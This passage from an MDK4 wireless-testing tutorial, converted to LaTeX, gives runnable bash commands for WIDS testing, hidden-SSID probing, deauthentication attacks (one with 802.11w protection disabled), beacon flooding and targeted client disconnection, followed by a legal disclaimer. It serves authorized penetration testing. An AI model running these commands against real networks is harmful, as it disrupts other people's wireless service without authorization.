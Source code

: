 \documentclass[11pt,a4paper]{article}
\begin{document}
\#\#\# Example 3: Test WIDS System
\begin{lstlisting}[language=bash]
\# Generate activity to test WIDS detection
mdk4 wlan0mon w
\end{lstlisting}

\#\#\# Example 4: Discover Hidden Network
\begin{lstlisting}[language=bash]
\# Create wordlist
cat > ssids.txt << EOF
HiddenNetwork
SecretWiFi
GuestNetwork
EOF

\# Probe for hidden SSIDs
mdk4 wlan0mon p -f ssids.txt
\end{lstlisting}

\#\#\# Example 5: Test 802.11w Protection
\begin{lstlisting}[language=bash]
\# Try to deauth clients (should fail if 802.11w enabled)
mdk4 wlan0mon d -B 00:11:22:33:44:55

\# Disable 802.11w protection in attack
mdk4 wlan0mon d -B 00:11:22:33:44:55 -W
\end{lstlisting}

\#\#\# Example 6: Channel Hopping Beacon Flood
\begin{lstlisting}[language=bash]
\# Create fake APs that hop channels
mdk4 wlan0mon b -h -f ssids.txt
\end{lstlisting}

\#\#\# Example 7: Targeted Client Disconnection
\begin{lstlisting}[language=bash]
\# Disconnect only specific client
mdk4 wlan0mon d -S AA:BB:CC:DD:EE:FF -B 00:11:22:33:44:55
\end{lstlisting}

---

\#\# Legal Disclaimer

⚠️ \textbf{IMPORTANT LEGAL NOTICE} ⚠️

\#\#\# Authorization Required
MDK4 is a powerful tool that can disrupt wireless networks. \textbf{You MUST have explicit written permission} from the network owner before conducting any tests.

\#\#\# Legal Consequences
Unauthorized use of MDK4 can result in:
\item \textbf{Criminal charges} under Computer Fraud and Abuse Act (CFAA) or equivalent laws
\item \textbf{Heavy fines} (potentially hundreds of thousands of dollars)
\item \textbf{Imprisonment} (up to 10+ years depending on jurisdiction)
\item \textbf{Civil lawsuits} for damages
\item \textbf{Loss of security certifications}
\end{document}
